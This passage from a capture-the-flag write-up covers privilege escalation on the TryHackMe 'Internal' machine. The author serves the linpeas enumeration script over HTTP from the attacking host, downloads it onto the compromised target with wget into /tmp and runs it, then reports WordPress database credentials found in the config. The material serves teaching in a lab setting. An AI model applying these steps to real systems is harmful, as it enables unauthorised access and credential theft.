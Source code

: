 ```bash
```
## Privilege Escalation - User

We are in as `www-data` user, we are now supposed to escalate our privileges to a shell user in the machine that is `aubreanna`.
![image](/assets/img/Posts/internal/users.png)

Of course you must have heard about `linpeas`. It is a privesc tool that does enumerations on a machine for potential escalation routes in seconds. Easy, dowload linpeas [here](https://github.com/carlospolop/PEASS-ng/releases/tag/20230618-1fa055b6) to your machine, start `python3 server` from where the linpeas file have been downloaded to.
```bash
┌──(prorat㉿prosec)-[~/hacks/thm/internal]
└─$ python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.250.90 - - [23/Jun/2023 09:52:42] "GET /linpeas.sh HTTP/1.1" 200 -

```
Use `wget` to download it to your preferred directory in your target (as long as you have write permissions mostsly is `/tmp` and `/dev/shm`), in the URL the host IP with be attacking machine.
```bash
www-data@internal:/tmp$ wget http://10.9.81.8/linpeas.sh
--2023-06-23 06:52:42--  http://10.9.81.8/linpeas.sh
Connecting to 10.9.81.8:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 836054 (816K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh                   100%[==============================================>] 816.46K   584KB/s    in 1.4s    

2023-06-23 06:52:44 (584 KB/s) - 'linpeas.sh' saved [836054/836054]

www-data@internal:/tmp$ 

```
Once it has been downloaded, make it executable using `chmod +x linpeas.sh` and run it `./linpeas.sh`.

Started going through the linpeas output, We find that it is a docker container, only two users with a console, `aubreanna` and `root`. Going further, we get database credentials from the wordpress config file.
![image](/assets/img/Posts/internal/db-creds.png)
